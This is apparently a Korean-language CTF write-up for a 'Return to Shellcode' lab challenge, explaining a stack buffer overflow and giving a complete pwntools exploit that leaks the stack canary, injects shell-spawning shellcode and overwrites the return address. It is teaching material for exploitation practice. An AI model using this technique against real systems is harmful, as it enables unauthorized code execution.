 Return To Shellcode 라이트업
===============


<img width="587" height="266" alt="image" src="https://github.com/user-attachments/assets/afd97a65-b219-4add-ba97-f085270dcf9d" />

checksec을 이용해 보호기법을 먼저 파악해볼 수 있다.

### 취약점 탐색

#### 1. buf의 주소

```c
printf("Address of the buf: %p\n", buf);
printf("Distance between buf and $rbp: %ld\n",
        (char*)__builtin_frame_address(0) - buf);
```

#### 2. 스택 버퍼 오버플로우

```c
char buf[0x50];

read(0, buf, 0x100);   // 0x50 < 0x100
gets(buf);             // Unsafe function
```

코드를 보면 스택 버퍼인 buf에 총 두 번의 입력을 받는데 두 입력 모두에서 오버플로우가 발생한다는 것을 알 수 있다.


### 익스플로잇 시나리오

#### 1. 카나리 우회

첫 번째 입력에서  buf에 오버플로우를 발생시켜 카나리를 구한다.

#### 2. 셸 획득

카나리를 구해서 두 번째 입력으로 반환 주소를 덮는다. get_shell() 함수가 없으므로 셸을 획득하는 코드를 직접 주입해야 한다.


### 익스플로잇

#### 1. 스택 프레임 정보 수집
스택을 이용하여 공격해야 하므로 스택 프레임의 구조를 먼저 파악해야 한다. 

```c
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```


#### 2. 카나리 릭

buf와 카나리 사이를 임의의 값으로 채우면 프로그램에서 buf를 출력할 때 카나리가 같이 출력된다, 

```c
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)
```

#### 3. 익스플로잇

카나리를 구했으므로 buf에 셸코드를 주입하고 카나리를 구한 값으로 덮은 뒤 반환 주소를 buf로 덮으면 셸코드가 실행되게 할 수 있다.

```c
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

<img width="677" height="182" alt="image" src="https://github.com/user-attachments/assets/4b218fdc-b210-4f4f-a17c-d06b96145417" />

공격에 성공해서 떴고 여기서 플래그 출력이 가능하다.




